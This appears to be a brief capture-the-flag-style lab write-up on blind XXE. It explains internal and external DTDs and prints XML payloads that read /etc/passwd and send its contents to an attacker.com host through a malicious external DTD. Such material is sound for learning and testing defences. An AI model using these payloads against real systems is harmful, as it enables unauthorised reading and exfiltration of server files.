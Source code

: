 Title: Exploiting blind XXE to exfiltrate data using a malicious external DTD
Level: Practitioner
Desc:  This lab has a "Check stock" feature that parses XML input but does not display the result.
To solve the lab, exfiltrate the contents of the /etc/hostname file. 


First of all what is the difference between classic XXE using interal entity and external DTD.
DTD - Document Type Definition
- An internal DTD is defined inside the XML document itself.
- An external DTD is loaded from an outside source, typically via a URL.
  
DTD can be used to bypass protection. 

classic XXE example using an internal entity:
```
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>&xxe;</data>
```
External DTDs can be used to bypass protections — like if entity definitions are restricted internally, but the parser still fetches external DTDs.

External DTD delivering the payload:
```
<?xml version="1.0"?>
<!DOCTYPE data SYSTEM "http://attacker.com/malicious.dtd">
<data>&sendFile;</data>
```
Then, malicious.dtd might contain:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY sendFile SYSTEM 'http://attacker.com/?data=%file;'>">
%eval;
```

So, using external DTD we can bypass protections and still exploit XXE vulnerability.
















